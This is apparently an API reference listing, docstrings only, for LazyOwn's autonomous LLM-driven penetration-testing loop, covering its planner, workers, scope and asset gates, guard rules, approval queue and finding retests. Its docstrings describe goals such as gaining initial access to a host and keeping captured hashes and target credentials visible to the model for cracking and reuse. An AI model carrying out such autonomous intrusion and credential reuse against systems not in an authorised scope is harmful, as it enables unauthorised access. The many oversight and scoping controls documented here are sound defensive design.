- `_append` (line 70) `def _append(record)` - *Append one record to the routing log. Never raises.*
- `infer_source` (line 79) `def infer_source(command, intent_text)` - *Classify where a resolved step likely came from.

Args:
    command: Resolved shell command line.
    intent_text: Original intent summary.

Returns:
    One of auto, cli, heuristic.*
- `describe_command` (line 105) `def describe_command(command)` - *Describe a command with phase and risk. Never raises.*
- `record_routing_decision` (line 120) `def record_routing_decision(task_id, intent_id, command, intent_text, target, stack)` - *Record which verb the loop chose for one intent.

Args:
    task_id: Loop task identifier.
    intent_id: Exploration node the command serves.
    command: Resolved shell command line.
    intent_text: Original intent summary for source inference.
    target: Bound target, if any.
    stack: Target stack fingerprint for cross-task priors.

Returns:
    The stored record.*
- `record_routing_outcome` (line 160) `def record_routing_outcome(task_id, intent_id, command, state, facts, findings, stack)` - *Record the terminal outcome of one executed command.

Args:
    task_id: Loop task identifier.
    intent_id: Exploration node the command served.
    command: Executed shell command line.
    state: Terminal intent state (done, blocked, exhausted, stopped).
    facts: Facts persisted by the intent.
    findings: Findings reported by the intent.
    stack: Target stack fingerprint for cross-task priors.

Returns:
    The stored record.*
- `read_decisions` (line 202) `def read_decisions(task_id, limit)` - *Read routing records, optionally filtered by task.

Args:
    task_id: Only return records for this task when set.
    limit: Max records from the tail.

Returns:
    Parsed record list, oldest first.*
- `mask_configured` (line 228) `def mask_configured(text)` - *Mask only operator-configured credential values in live text.

Unlike :func:`_mask` (defense in depth for stored records), this keeps
discovered loot (hashes, target creds) visible to the model — the loop
needs them for cracking and reuse reasoning — while configured secrets
never reach cloud backends. Mirrors the secret-patterns approach of
only masking known-configured values in transit.*
- `stack_signature` (line 254) `def stack_signature(assets)` - *Fingerprint the target stack from service assets.

Sorted service values joined short, so equal stacks share priors
across engagements (the cross-task learning query) while unseen
stacks fall back to global priors.

Args:
    assets: Object exposing ``list("service")`` with ``.value``.

Returns:
    Stack fingerprint, empty when unknowable. Never raises.*
- `_is_ip_literal` (line 274) `def _is_ip_literal(value)` - *Return True when value parses as an IP literal.*
- `fuse_routing_decisions` (line 285) `def fuse_routing_decisions(task_id)` - *Fuse routing records into the world model as host notes.

Only decisions bound to IP-literal targets write notes, so the world
model gains per-host evidence of what the loop already tried. The
intel and attack graphs rebuild from the world model, hence from
these notes as well.

Args:
    task_id: Fuse only this task when set, else everything recent.

Returns:
    Summary with fused count. Never raises.*
- `export_spans` (line 324) `def export_spans(task_id, out)` - *Export activity records as trace spans for observability.

Maps the existing trace fields onto span semantics: ``task`` is the
trace id, ``tool_use_id`` (or a synthetic ``kind:index`` id) is the
span id, ``intent_id`` is the parent, and ``tool``/``result`` pairs
sharing a ``tool_use_id`` join into one span with duration. Point
records without a pair become single-event spans.

Args:
    task_id: Loop task identifier.
    out: Destination path. Defaults to ``spans_<task>.jsonl``.

Returns:
    Summary with spans written and destination. Never raises.*

#### `lazy_loop.py`
**Path:** `modules/lazy_loop.py`
**File Doc:** *Lazy autonomous loop for LazyOwn.  Double-graph engine without external services.  Semantics: AssetGraph is global shared truth, ExplorationGraph is per-task, anchors join them, Planner is the sole intent generator emitting 0..N intents per wakeup, each Worker claims exactly ONE intent and writes facts back, Guard gates every tool call, Enrich completes DNS/HTTP asynchronously, Traffic records every execution, Retester replays findings to a verdict, cold compaction folds stale nodes.  Persistence: JSON files under ``sessions/lazy/`` so every state survives restarts and stays inspectable from the CLI. Legacy ``sessions/lazy/`` files are migrated automatically on first use.  Usage: from modules.lazy_loop import LazyLoopEngine engine = LazyLoopEngine() task = engine.create_task("gain initial access on 10.10.11.5") engine.run(task.task_id)*

**Classes:**
- `ExplorationNode` (line 808) `class ExplorationNode` - *Single node of the per-task exploration graph.*
- `ExplorationEdge` (line 822) `class ExplorationEdge` - *Directed edge between exploration nodes.*
- `AssetNode` (line 831) `class AssetNode` - *Single node of the global asset graph.*
- `LazyTask` (line 845) `class LazyTask` - *Lifecycle record for one autonomous engagement.*
- `AssetGraph` (line 856) `class AssetGraph` - *Global shared asset truth across tasks.*
- `ExplorationGraph` (line 1019) `class ExplorationGraph` - *Per-task exploration graph with anchors into the asset graph.*
- `Frontier` (line 1294) `class Frontier` - *Pending-intent queue; workers claim exactly one intent each.*
- `ActivityLog` (line 1322) `class ActivityLog` - *Per-step worker/planner trace, backing trace exchange.*
- `TrafficLog` (line 1455) `class TrafficLog` - *Append-only record of every tool execution like the Lazy MITM proxy.*
- `Guard` (line 1713) `class Guard` - *Safety boundary: audit log plus user-configured intercept rules.*
- `AssetGate` (line 2054) `class AssetGate` - *Target-asset gate: global blocklist + per-task block/allow lists.

Enforcement order: global block hit denies; task block hit denies;
non-empty task allow-list without hit denies (closed whitelist);
otherwise allows. Checked on asset insert, intent inject and every
worker target before tools run.*
- `Budget` (line 2148) `class Budget` - *Three-level budget: rounds, toolcalls, findings, task deadline.*
- `RuntimeTracker` (line 2232) `class RuntimeTracker` - *Observable runtime: abort cause, workers, heartbeat, watermarks.*
- `InterceptQueue` (line 2300) `class InterceptQueue` - *Pending ask-queue with decide + timeout, priority ordered.*
- `TodoStore` (line 2460) `class TodoStore` - *Per-task shared planner scratchpad for serial exploit chains.*
- `TaskStore` (line 2502) `class TaskStore` - *Registry of tasks, goals, constraints, hints, scope, findings.*
- `Planner` (line 2933) `class Planner` - *Sole intent generator, woken on every graph change like the planner planner.*
- `Worker` (line 3373) `class Worker` - *Executes exactly ONE claimed intent with real tools.*
- `Retester` (line 5068) `class Retester` - *Replay finding evidence to a verdict like the Lazy retester agent.*
- `ColdCompactor` (line 5161) `class ColdCompactor` - *Fold stale exploration nodes into digests faithful to coldgraph.

Hot rule: ancestors of live intents stay hot, live intents stay hot,
direct children of live intents stay hot. Cold needs R consecutive
planner rounds plus connectivity grouping with same-parent rescue.*
- `FindingService` (line 5882) `class FindingService` - *Finding lifecycle: report/status/bind like finding_workflow.*
- `EvidenceStore` (line 6132) `class EvidenceStore` - *Durable PoC/evidence vault per task like evidence/store.*
- `Notifier` (line 6235) `class Notifier` - *Finding event fan-out like notify/ (log + webhook, stateless).*
- `TriggerStore` (line 6401) `class TriggerStore` - *Persistent event/interval triggers like server/scheduler (P3).*
- `LlmPool` (line 6550) `class LlmPool` - *Optional LLM chain with failover + usage ledger like llmpool/llmrec.

Members resolve through modules.llm_factory when configured; with no
members the planner/worker keep the heuristic path (never a hard error).
Failures trip a shared health registry with tiered backoff so a dead
head member is skipped instead of retried every round.*
- `ToolCatalog` (line 6969) `class ToolCatalog` - *Per-agent tool bindings like agent/toolcatalog (DB-overridable).*
- `SideQuestions` (line 7013) `class SideQuestions` - *Bounded side-question Q&A over task context like sidequestion/.

Every exchange persists to ``sidequestions_<task>.json`` under its
session (default ``btw``) so side threads survive restarts and stay
out of the mainline transcript.*
- `CompanyScope` (line 7087) `class CompanyScope` - *Company asset-range registry like db/companies + company_scope.*
- `TaskArchive` (line 7117) `class TaskArchive` - *Task snapshot vault like task_archives: save/list/restore/stats.*
- `TaskTemplate` (line 7236) `class TaskTemplate` - *Named goal templates like task_templates: list/add/use/remove.*
- `TaskCategory` (line 7279) `class TaskCategory` - *Per-task labels like task_categories: set/list.*
- `TaskChat` (line 7306) `class TaskChat` - *Persistent per-task conversation like conversation/: say/log/clear.

Turns carry a session name (default ``main``) so one task holds many
independent dialogue sessions that never interleave.*
- `LazyLoopEngine` (line 7411) `class LazyLoopEngine` - *Single event-driven orchestrator: planner, workers, guard, enrich, retest.

One human command (lazy_loop / auto_loop) invokes every operator-visible
step internally: scope, asset, enrich, planner, frontier claim, worker
tools, traffic, finding, retest, compaction, trace, report.*

**Functions:**
- `plausible_command` (line 150) `def plausible_command(command)` - *Reject obvious hallucinations such as ``nmap --block``.

Only long flags of the one binary the loop uses heavily enough to
hallucinate are validated; everything else passes untouched, so the
filter can never block a legitimate operator command.*
- `_sudo_unavailable` (line 236) `def _sudo_unavailable(output)` - *Return True when a tool aborted because sudo cannot prompt here.*
- `_is_ip_literal` (line 242) `def _is_ip_literal(value)` - *Return True when ``value`` parses as an IPv4/IPv6 literal.*
- `_host_from_token` (line 253) `def _host_from_token(token)` - *Extract the host part of a command token, or empty when none.

Handles bare IPv4 addresses, bare hostnames and URLs (``http://h:p/x``)
so the worker sanitizer can retarget foreign hosts to the intent target.*
- `loop_exiting` (line 305) `def loop_exiting()` - *Return True once the shell is tearing the loop runtime down.*
- `_register_loop_executor` (line 310) `def _register_loop_executor(executor)` - *Track one round executor so shutdown can cancel it.*
- `_unregister_loop_executor` (line 316) `def _unregister_loop_executor(executor)` - *Drop one round executor from the shutdown set.*
- `arm_exit_watchdog` (line 322) `def arm_exit_watchdog(seconds)` - *Guarantee process death even with threads stuck in socket reads.

``qa``/``exit`` run every graceful teardown first; the watchdog only
fires when the interpreter is still alive past the budget (atexit
joining a ThreadPoolExecutor whose workers block on a hung LLM
server). Daemon by design: a clean exit never triggers it.*
- `scrub_secrets` (line 363) `def scrub_secrets(text)` - *Mask API keys/tokens before a string reaches logs or the panel.

Shell verbs echo their own command lines (``export GROQ_API_KEY=...``)
into the transcript and activity store; without scrubbing, one
``lazy_trace`` read or git slip leaks the operator's cloud keys.*
- `_restrict_file` (line 387) `def _restrict_file(path)` - *Best-effort chmod 600 on a secret-bearing file; never raises.*
- `_channel_encryption_key` (line 395) `def _channel_encryption_key()` - *Return the AES key for channel secrets, or None when unconfigured.*
- `_encrypt_channel_secret` (line 411) `def _encrypt_channel_secret(plaintext)` - *Encrypt a channel password for storage; plaintext fallback when no key.

When ``LAZYOWN_SECRET_KEY`` (or ``sessions/.secret_key``) is set the
value is AES-256-GCM sealed and prefixed ``enc:v1:``. Otherwise the
value is stored as-is with 0600 file perms and a one-time warning;
callers must still restrict the store file.*
- `_decrypt_channel_secret` (line 449) `def _decrypt_channel_secret(stored)` - *Reveal a channel password stored by :func:`_encrypt_channel_secret`.*
- `wake_task` (line 467) `def wake_task(task_id)` - *Signal a running engine that new work landed for its task.

Called from :meth:`ActivityLog.emit` for meaningful events, this is
what makes the loop event-driven: an operator hint, a finished
worker or a scheduler fire wakes the planner immediately instead of
waiting for the heartbeat.*
- `_wake_event` (line 481) `def _wake_event(task_id)` - *Register and return the process-wide wake event for a task.*
- `_drop_wake_event` (line 491) `def _drop_wake_event(task_id)` - *Forget the wake event after a run finishes.*
- `register_worker` (line 501) `def register_worker(worker)` - *Track a live Worker so shell exit can close its side channels.*
- `unregister_worker` (line 507) `def unregister_worker(worker)` - *Drop a finished Worker from the shutdown registry.*
- `shutdown_loop_runtime` (line 513) `def shutdown_loop_runtime(reason)` - *Tear down every loop-owned resource; safe on any exit path.

Called by ``qa``, ``exit``, EOF and ``atexit``: kills streaming
children (whole process groups), closes each worker's persistent
shell session, pauses every non-terminal task so it resumes cleanly
with ``lazy_loop --task T``, stops the recorder proxy and releases
any wake waiters. Never raises.*
- `_noa_enabled` (line 599) `def _noa_enabled()` - *Return whether NOA raw archiving is enabled (default off).*
- `_now` (line 641) `def _now()` - *Return current epoch seconds.*
- `_store_path` (line 646) `def _store_path(name)` - *Return JSON store path, ensuring the directory exists.*
- `_load_json` (line 659) `def _load_json(path, default)` - *Load JSON mapping from path or return default copy.*
- `_save_json` (line 669) `def _save_json(path, payload)` - *Atomically persist payload to path.

Parallel workers share one store directory, so each write uses its
own process/thread-scoped temp file under a lock; the final replace
stays atomic for readers.*
- `_slug` (line 684) `def _slug(value)` - *Normalize value into a dedupe key fragment.*
- `_traffic_template` (line 689) `def _traffic_template(command)` - *Group exchanges by URL-template like the traffic proxy index.*
- `_llm_error_reply` (line 699) `def _llm_error_reply(text)` - *Return True when an LLM reply is a backend error banner, not content.*
- `_llm_quota_reply` (line 707) `def _llm_quota_reply(text)` - *Return True when a reply states explicit quota/credit exhaustion.

Only explicit billing/quota wording rotates the task chain; generic
rate limits and transient errors stay with the health registry.*
- `task_llm_chain` (line 728) `def task_llm_chain(store, task_id)` - *Return the per-task LLM chain members (empty when unbound).*
- `parse_judge_output` (line 738) `def parse_judge_output(raw)` - *Parse strict judge JSON demanding decision and comment.

Args:
    raw: Raw model output, optionally wrapped in a markdown fence.

Returns:
    Dict with decision and comment, empty on any parse failure.*
- `judge_command` (line 766) `def judge_command(command, background, fail_action)` - *Ask the pool for a guard verdict, applying the configured fail policy.

Args:
    command: Tool arguments under review.
    background: Optional operator message truncated to the limit.
    fail_action: ``allow`` or ``deny`` applied when the judge is unusable.

Returns:
    Verdict dict with decision, comment and source; never raises.*
- `_scope_host` (line 1921) `def _scope_host(value)` - *Extract the host part of a url/service/endpoint asset value.*
- `_scope_covers` (line 1931) `def _scope_covers(scope_kind, scope_value, asset)` - *Return True when a scope rule owns an asset by ownership, not substring.

A root domain owns itself, its subdomains and any url/service whose
host matches; a CIDR owns the ips inside it (bare or URL-embedded);
an ip owns itself plus any URL on it regardless of port; a url owns
itself and its prefixes. Other kinds keep substring matching.*
- `_target_as_asset` (line 1981) `def _target_as_asset(value)` - *Wrap a bare target string as a minimal asset view for scope checks.*
- `_asset_candidates` (line 1998) `def _asset_candidates(target)` - *Split a target into domain/ip/url candidate lists for gate matching.*
- `_match_gate_rule` (line 2019) `def _match_gate_rule(rule, target)` - *Return True when one enabled gate rule hits the target asset.*
- `extract_scope_items` (line 2775) `def extract_scope_items(goal_text, description)` - *Lift explicit asset scope from goal like the planner goalsScopeTail.

Minimal-range principle: only what the operator literally named.
Bare IP/CIDR wins over domains; full hostname wins over root domain.*
- `extract_constraint_items` (line 2807) `def extract_constraint_items(goal_text, description)` - *Lift explicit allow/deny operation bounds like the planner goals decomposer.*
- `load_intel_scores` (line 2835) `def load_intel_scores()` - *Return host exposure scores from sessions/intel_summary.json.

Written by the intel fusion view on every graph fetch; empty when
the operator never opened IntelGraph. Never raises.*
- `resolve_target` (line 2850) `def resolve_target(task_id, store, graph)` - *Resolve concrete target for worker commands from scope, assets, goal.*
- `decompose_goals` (line 2873) `def decompose_goals(goal_text, description)` - *Split goal text into verifiable objectives like the planner DecomposeGoals.*
- `enrich_asset` (line 2910) `def enrich_asset(value)` - *Synchronously enrich one asset with DNS and HTTP like the planner enrich.*
- `constraint_block` (line 5730) `def constraint_block(constraints, scope)` - *Render allow/deny bounds as highest-priority prompt block.

Faithful to the reference constraint block: allow/deny grouped, out-of-scope
targets are recorded as facts and skipped, never probed. Scope filters
which constraints inject (planner/worker); empty keeps all (both).*
- `settlement_prompt` (line 5764) `def settlement_prompt(agent, reason)` - *Build the wrap-up instruction used when a run budget ends.

Args:
    agent: ``worker``, ``planner`` or ``main``.
    reason: ``timeout`` or ``max_turns``.

Returns:
    Settlement instruction text for the trace and the final flush.*
- `build_prompt_context` (line 5787) `def build_prompt_context(task_id, graph, assets, store, budget, top)` - *Assemble a bounded prompt context for planner/worker LLM calls.

Older history folded into cold digests rides as digest lines instead
of raw rows, so prompts stay small without losing prior work.

Args:
    task_id: Task being planned/executed.
    graph: Task exploration graph.
    assets: Global asset graph.
    store: Optional task store for scope/constraints.
    budget: Max characters of assembled context.
    top: Max recent facts and hub/island entries.

Returns:
    Context text capped at ``budget`` characters.*
- `_mask_prompt_context` (line 5858) `def _mask_prompt_context(text)` - *Strip operator-configured secrets from LLM-bound context.*
- `finding_severity` (line 5868) `def finding_severity(text, evidence)` - *Rank finding severity like the report renderer (critical first).*
- `_kill` (line 332) `def _kill()`
- `_mask_key` (line 372) `def _mask_key(match)`
- `_signature` (line 3057) `def _signature(text)`
- `sink` (line 3279) `def sink(text)`
- `_work` (line 4033) `def _work()`
- `_reader` (line 4075) `def _reader()`
- `run_command` (line 4162) `def run_command(command, background)` - *Run one shell probe/verb through scope, guard and audit.

With ``background`` the command is launched as a tracked job
(job_status/job_output) instead of blocking the model turn.*
- `record_fact` (line 4187) `def record_fact(text)` - *Persist one observed or inferred fact on the exploration graph.*
- `report_finding` (line 4196) `def report_finding(name, evidence, severity)` - *Record a verified vulnerability with its evidence.*
- `traffic_search` (line 4207) `def traffic_search(query)` - *Search captured command/traffic records by keyword.*
- `graph_state` (line 4220) `def graph_state()` - *Compact exploration overview: intents, facts, findings.*
- `shell_open` (line 4235) `def shell_open()` - *Open a persistent bash session for multi-step shell work.*
- `shell_send` (line 4239) `def shell_send(command)` - *Run one guarded command in the persistent shell session.*
- `job_status` (line 4243) `def job_status(job_id)` - *Report whether one background job is still running.*
- `job_output` (line 4251) `def job_output(job_id)` - *Return the tail of one background job's output.*
- `sink` (line 4689) `def sink(text)`
- `_worker` (line 5219) `def _worker(work)`
- `_find` (line 5393) `def _find(value)`
- `_union` (line 5399) `def _union(left, right)`
- `_work` (line 5994) `def _work()`
- `_run_one` (line 8287) `def _run_one(index_node)`
- `stage_enabled` (line 8234) `def stage_enabled(_name)`
- `_stage_enabled` (line 8748) `def _stage_enabled(_name)`

**Methods:**
- `__init__` (line 859) `def __init__(self)` - *Load persisted assets or start empty.*
- `_persist` (line 873) `def _persist(self)` - *Persist current assets to disk.*
- `dedupe_key` (line 877) `def dedupe_key(self, kind, value, parent_id)` - *Compute program-owned dedupe key for an asset.*
- `insert` (line 881) `def insert(self, kind, value, parent_id, meta, task_id)` - *Insert asset or return existing node with same dedupe key.

When ``task_id`` is given, the per-task block/allow asset gate
applies in addition to the global blocklist.*
- `get` (line 911) `def get(self, asset_id)` - *Return asset by id or None.*
- `list` (line 915) `def list(self, kind)` - *List assets optionally filtered by kind.*
- `mark_tested` (line 922) `def mark_tested(self, asset_id)` - *Flag asset as tested by a worker intent.*
- `coverage` (line 932) `def coverage(self, scope)` - *Compute tested/total coverage, optionally scoped.*
- `scoped` (line 948) `def scoped(self, scope, kind)` - *List assets owned by the task scope via ownership matching.

A root domain in scope returns its subdomains, services and urls;
a CIDR returns its hosts; an ip returns itself and its urls. With
no scope the global list returns (non-task contexts stay unfiltered).*
- `untested` (line 961) `def untested(self, limit)` - *Return oldest untested assets up to limit.*
- `coverage_for` (line 966) `def coverage_for(self, graph, scope)` - *Compute task-scoped coverage like the planner graph_overview.

Tested means anchored to a terminal intent of THIS task, not the
global flag polluted by other tasks on the same target.*
- `untested_for` (line 994) `def untested_for(self, graph, scope, limit)` - *Return scope-filtered assets not yet covered by this task.

Lazy list_untested_assets is per-task: global tested flag from
other tasks must not starve a new task on the same target.
An asset counts as covered only when this task already anchored
it to a terminal intent.*
- `__init__` (line 1022) `def __init__(self, task_id)` - *Load task graph or start empty.*
- `_persist` (line 1044) `def _persist(self)` - *Persist task graph to disk.*
- `add_node` (line 1056) `def add_node(self, kind, text, state, priority, meta)` - *Append node and return it.*
- `get` (line 1079) `def get(self, node_id)` - *Return node by id or None.*
- `set_state` (line 1083) `def set_state(self, node_id, state)` - *Transition node state and persist.*
- `add_edge` (line 1094) `def add_edge(self, src, dst, kind)` - *Link two existing nodes.*
- `anchor` (line 1107) `def anchor(self, node_id, asset_id)` - *Anchor exploration node to a concrete asset.*
- `anchors_for` (line 1118) `def anchors_for(self, node_id)` - *Return asset ids anchored to node.*
- `anchored_nodes` (line 1122) `def anchored_nodes(self, asset_id)` - *Return exploration node ids anchored to asset.*
- `list` (line 1126) `def list(self, kind, state)` - *List nodes optionally filtered by kind/state.*
- `children` (line 1135) `def children(self, node_id, kind)` - *Return destination ids of outgoing edges.*
- `parents` (line 1142) `def parents(self, node_id, kind)` - *Return source ids of incoming edges.*
- `overview` (line 1149) `def overview(self)` - *Return planner-facing state summary like graph overview.*
- `reload` (line 1172) `def reload(self)` - *Reload graph from disk, discarding in-memory state.*
- `compare_and_claim` (line 1196) `def compare_and_claim(self, node_id)` - *CAS claim: reload, verify still open, then mark running. Cross-process safe.*
- `finding_signature` (line 1224) `def finding_signature(self, text)` - *Normalize finding text into dedupe signature.*
- `has_finding` (line 1230) `def has_finding(self, text)` - *Return existing finding with same signature or None.*
- `node_detail` (line 1240) `def node_detail(self, node_id)` - *Full node view: text, state, meta, edges, anchors, trace tail.*
- `list_facts` (line 1256) `def list_facts(self, query, limit, hot_full)` - *Keyword-filtered facts like list_facts.

Hot facts are never truncated when ``hot_full`` is set: the full
hot set returns regardless of ``limit`` (cold views stay capped).*
- `record_fact` (line 1272) `def record_fact(self, text, evidence, confidence, intent_id, asset_ids)` - *Worker fact write like recordFact: deduped, anchored, done.*
- `__init__` (line 1297) `def __init__(self, graph)` - *Bind frontier to a task graph.*
- `pending` (line 1302) `def pending(self)` - *Return pending intents ordered by priority then id.*
- `claim_next` (line 1307) `def claim_next(self)` - *Atomically claim highest-priority pending intent (cross-process CAS).*
- `__init__` (line 1325) `def __init__(self, task_id)` - *Bind log to task.*
- `emit` (line 1330) `def emit(self, worker, kind, text, intent_id, tool_use_id)` - *Append one activity record and return it.*
- `read` (line 1355) `def read(self, limit)` - *Return most recent records up to limit.*
- `for_intent` (line 1369) `def for_intent(self, intent_id)` - *Return records for one intent.*
- `trace` (line 1373) `def trace(self, intent_id, query, step_id, limit)` - *Work-scoped trace view like get_worker_trace.

Steps are 1-based positions in the intent's own stream. With
``step_id`` set, returns that step's full record; otherwise the
step flow, optionally filtered inline by ``query``.

Args:
    intent_id: Work (intent) to lock onto.
    query: Inline keyword filter over step text.
    step_id: 1-based step to fetch in full (0 means list).
    limit: Max steps to list.

Returns:
    Dict with intent_id, steps/total or the single step.*
- `search_all` (line 1411) `def search_all(self, query, limit)` - *Global keyword search across every work in this task.

Unlike :meth:`search`, hits keep their work attribution
(intent + step) so a worker reuses observations another work
saw but never wrote into a fact.*
- `search` (line 1441) `def search(self, query, exclude_intent)` - *Search worker traces by keyword, excluding one intent like the planner.*
- `__init__` (line 1458) `def __init__(self, task_id)` - *Bind log to task or global stream.*
- `record` (line 1463) `def record(self, kind, command, output, meta)` - *Append one traffic record and return it.*
- `read` (line 1485) `def read(self, limit)` - *Return most recent traffic records.*
- `search` (line 1499) `def search(self, query, limit)` - *Full-text search over command/output like traffic_search.*
- `search_host` (line 1510) `def search_host(self, host, port, limit)` - *Port-aware host search: same-host/different-port rows never mix.

With ``port`` set, only ``host:port`` rows match. Without it, the
host matches as a token on any port, but ``10.0.0.1`` never hits
``10.0.0.10`` and ``example.com`` never hits ``notexample.com``.*
- `get` (line 1538) `def get(self, digest)` - *Fetch one exchange by digest like traffic_get.*
- `recorder_body` (line 1545) `def recorder_body(self, digest)` - *Return stored request/response bodies for one proxy exchange.

Args:
    digest: Traffic record digest.

Returns:
    Body document from the recorder (empty when not a proxy row).

Raises:
    KeyError: Unknown digest.*
- `recorder_blob` (line 1574) `def recorder_blob(self, digest, part, offset, length)` - *Read a proxy body in ranges like the blob API.

Args:
    digest: Traffic record digest.
    part: ``resp`` (default) or ``req``.
    offset: Byte offset.
    length: Max bytes per read.

Returns:
    Range dict with data/offset/length/total/eof.

Raises:
    KeyError: Unknown digest or no recorder body.*
- `templates` (line 1605) `def templates(self, limit)` - *Group exchanges by URL-template with counts like the proxy index.*
- `by_template` (line 1614) `def by_template(self, template, limit)` - *Return exchanges matching one template substring.*
- `bind` (line 1619) `def bind(self, finding_id, digest, graph, role, note)` - *Attach traffic digest to a finding like bind_finding_traffic.

A finding holds many evidences, each with a role (baseline,
proof, verification or supporting; legacy request/response
accepted), an operator note and a stable position. Legacy
plain-string refs read back as supporting.*
- `_normalize_refs` (line 1650) `def _normalize_refs(raw)` - *Upgrade legacy string refs to role/note dicts, keeping order.*
- `evidence` (line 1667) `def evidence(self, finding_id, graph)` - *Return a finding's traffic evidences in display order.*
- `reorder_evidence` (line 1676) `def reorder_evidence(self, finding_id, digests, graph)` - *Sort a finding's evidences; unlisted ones keep their tail order.*
- `export` (line 1690) `def export(self, path, limit)` - *Dump recent exchanges to a JSON file like traffic archive export.*
- `archive` (line 1697) `def archive(self, label)` - *Snapshot traffic stream into sessions/lazy/traffic_archive_*.*
- `clear` (line 1703) `def clear(self)` - *Drop the traffic stream, returning the discarded record count.*
- `__init__` (line 1716) `def __init__(self, task_id)` - *Load rules and audit trail.*
- `_persist` (line 1735) `def _persist(self)` - *Persist rule set plus judge config (never drop either).*
- `add_rule` (line 1742) `def add_rule(self, pattern, action, reason, priority)` - *Register an intercept rule; higher priority evaluates first.*
- `remove_rule` (line 1753) `def remove_rule(self, pattern)` - *Delete rules matching pattern exactly.*
- `set_judge` (line 1762) `def set_judge(self, enabled, fail_action)` - *Enable/disable the LLM judge fallback for unmatched commands.

Args:
    enabled: Whether the judge consults the pool on rule misses.
    fail_action: ``allow`` or ``deny`` when the judge is unusable.

Returns:
    Persisted judge config.

Raises:
    ValueError: Unknown fail action.*
- `check` (line 1784) `def check(self, tool, command, tool_use_id, source, intent_id)` - *Evaluate tool call and audit it, returning allow/ask/deny.

Every call mints a stable ``tool_use_id`` (``tu_<12hex>``) shared
with the intercept queue, traffic record and activity trace so an
approval row jumps back to the exact execution.*
- `audit` (line 1836) `def audit(self, limit, action, source, query)` - *Return recent audit entries with optional status/source/text filters.*
- `lookup` (line 1864) `def lookup(self, tool_use_id)` - *Jump to the exact execution behind an approval row.

Returns the audit entry plus linked intercept, traffic and
activity rows sharing the same ``tool_use_id`` (traffic falls
back to command-digest matching for rows recorded before ids).*
- `stats` (line 1906) `def stats(self)` - *Attribution counters over the audit trail.*
- `__init__` (line 2063) `def __init__(self, task_id)` - *Bind global list plus optional per-task lists.*
- `_load_global` (line 2070) `def _load_global(self)` - *Return global block rules.*
- `_load_task` (line 2074) `def _load_task(self)` - *Return per-task block/allow payload.*
- `_save_global` (line 2081) `def _save_global(self, block)` - *Persist global block rules.*
- `_save_task` (line 2085) `def _save_task(self, payload)` - *Persist per-task block/allow rules.*
- `add` (line 2090) `def add(self, kind, pattern, note, action)` - *Register a block (global or task) or allow (task only) rule.*
- `remove` (line 2111) `def remove(self, rule_id, action)` - *Delete a rule by id; returns True when something was removed.*
- `list` (line 2129) `def list(self)` - *Return global block plus per-task block/allow rules.*
- `evaluate` (line 2133) `def evaluate(self, target)` - *Gate one target: allowed flag plus human-readable reason.*
- `__init__` (line 2151) `def __init__(self, store)` - *Bind budget counters to task store.*
- `limits` (line 2155) `def limits(self, task_id)` - *Return effective limits for task.*
- `set_limits` (line 2166) `def set_limits(self, task_id)` - *Persist budget limits for task.*
- `usage` (line 2179) `def usage(self, task_id)` - *Return consumed toolcalls/findings/rounds.*
- `record_toolcall` (line 2189) `def record_toolcall(self, task_id, intent_id)` - *Count one executed tool call.*
- `record_round` (line 2201) `def record_round(self, task_id)` - *Count one orchestrator round.*
- `check` (line 2219) `def check(self, task_id)` - *Return ok/exceeded decision with reason.*
- `__init__` (line 2235) `def __init__(self, store)` - *Bind runtime to task store.*
- `heartbeat` (line 2239) `def heartbeat(self, task_id)` - *Return live runtime snapshot.*
- `beat` (line 2257) `def beat(self, task_id, workers)` - *Stamp heartbeat.*
- `abort` (line 2272) `def abort(self, task_id, cause, detail)` - *Stamp abort cause like typed AbortCause.*
- `note_trigger` (line 2288) `def note_trigger(self, task_id, trigger_id)` - *Advance scheduler watermark so restarts never re-fire.*
- `_event_for` (line 2307) `def _event_for(cls, path, item_id)` - *Process-wide decision event for one pending intercept row.

Approvals may be decided from a different queue instance (the
operator command or the monitor TUI) than the worker thread that
waits; keying by store path plus row id lets both sides meet on
the same event.*
- `_drop_event` (line 2324) `def _drop_event(cls, path, item_id)` - *Forget a settled row's wake-up event.*
- `__init__` (line 2329) `def __init__(self, task_id)` - *Bind queue to task.*
- `_load` (line 2335) `def _load(self)` - *Load queue payload.*
- `_save` (line 2339) `def _save(self, payload)` - *Persist queue payload.*
- `request` (line 2343) `def request(self, tool, command, reason, tool_use_id)` - *Enqueue one ask decision and return pending entry.*
- `pending` (line 2361) `def pending(self)` - *Return pending entries ordered by id.*
- `history` (line 2365) `def history(self, page, per_page, states, query)` - *Paginated intercept history; pending stays fully visible.

Pending requests are never hidden by history pagination: the
response always carries the full pending list alongside the
requested history page (lazy 0.3.12 #133 parity). History rows
filter by decision state and keyword (lazy #139 parity).

Args:
    page: 1-based history page number.
    per_page: History rows per page (1..100).
    states: Decision states to keep (empty means all).
    query: Keyword over tool/command/reason/tool_use_id.

Returns:
    Dict with history items, total, page, per_page, has_more
    plus the complete pending list and its count.*
- `decide` (line 2417) `def decide(self, item_id, verdict)` - *Approve or deny one pending entry and wake its waiter.*
- `wait` (line 2431) `def wait(self, item_id, timeout_sec)` - *Block until decided or timeout; timeout denies safely.

In-process decisions wake the waiter immediately through the
shared event registry; a 0.2 s file poll stays as the fallback
for decisions made by another process (monitor TUI, second
shell), which cannot signal this process's events.*
- `__init__` (line 2463) `def __init__(self, task_id)` - *Load persisted todos.*
- `_persist` (line 2470) `def _persist(self)` - *Persist todo list.*
- `add` (line 2474) `def add(self, text)` - *Append a serial step and return it.*
- `complete` (line 2481) `def complete(self, item_id)` - *Mark step done.*
- `next_pending` (line 2490) `def next_pending(self)` - *Return first pending step.*
- `as_list` (line 2497) `def as_list(self)` - *Return all steps.*
- `__init__` (line 2505) `def __init__(self)` - *Load task registry.*
- `_persist` (line 2510) `def _persist(self)` - *Persist registry.*
- `create` (line 2514) `def create(self, goal, description)` - *Create task record and return it.*
- `get` (line 2525) `def get(self, task_id)` - *Return raw task record or None.*
- `list` (line 2529) `def list(self)` - *Return all task records.*
- `set_status` (line 2533) `def set_status(self, task_id, status)` - *Update task status.*
- `pause` (line 2545) `def pause(self, task_id)` - *Pause planner and workers like the planner Engine.Pause.*
- `resume` (line 2549) `def resume(self, task_id)` - *Resume a paused task back to running like the planner resumeTask.*
- `delete` (line 2558) `def delete(self, task_id)` - *Remove task record; per-task graph files are cleaned by caller.*
- `active_count` (line 2567) `def active_count(self, exclude)` - *Return how many tasks are currently running.*
- `queue` (line 2571) `def queue(self)` - *Return queued tasks in FIFO arrival order.*
- `enqueue` (line 2576) `def enqueue(self, task_id)` - *Mark a task queued with its arrival stamp.*
